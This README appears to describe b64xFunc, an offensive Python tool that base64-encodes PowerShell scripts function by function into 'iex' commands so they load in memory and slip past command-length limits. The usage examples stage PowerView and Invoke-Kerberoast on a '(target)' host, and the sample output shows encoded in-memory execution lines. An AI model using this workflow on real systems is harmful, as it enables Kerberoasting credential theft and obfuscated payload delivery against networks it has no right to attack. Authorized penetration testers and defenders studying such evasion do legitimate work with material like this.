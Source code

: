 # b64xFunc - Base64 Encode PS1 Scripts by Function

b64xFunc encodes a ps1 script function by function and generates a series of powershell commands to rebuild the original ps1 functionality in memory. 

Powershell has a command length limit of 8,191 characters. This limits the size of ps1 scripts that can be executed using the `powershell -enc` parameter. By encoding large ps1 files function by function, b64xFunc can bypass this command length restriction.

```
Usage:
   b64xFunc.py -file FILE	  Load ps1 from file
   b64xFunc.py -url URL           Load ps1 from url
   b64xFunc.py -cmd "CMD"	  Encode a single command

Full Example:
   (kali)   b64xFunc.py -file powerview.ps1 > test.ps1
   (kali)   b64xFunc.py -file Invoke-Kerberoast.ps1 >> test.ps1
   (target) Import-Module ./test.ps1
   (target) Invoke-Kerberoast | fl
```

OR

```
   (windows) python .\b64xFunc.py -file .\PowerView.ps1 | clip
   (target)  [Ctrl-V] [Enter]
```

## Sample Output
```
python b64xFunc.py -url https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1

iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("ZnVuY3Rpb24gTmV...pbGRlcgp9Cg==")))
iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("ZnVuY3Rpb24gZnV...ydGllcwp9Cg==")))
iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("ZnVuY3Rpb24gQWR...zCiAgICB9Cn0K")))
iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("ZnVuY3Rpb24gcHN...lVHlwZSgpCn0K")))
[... output truncated ...]
```
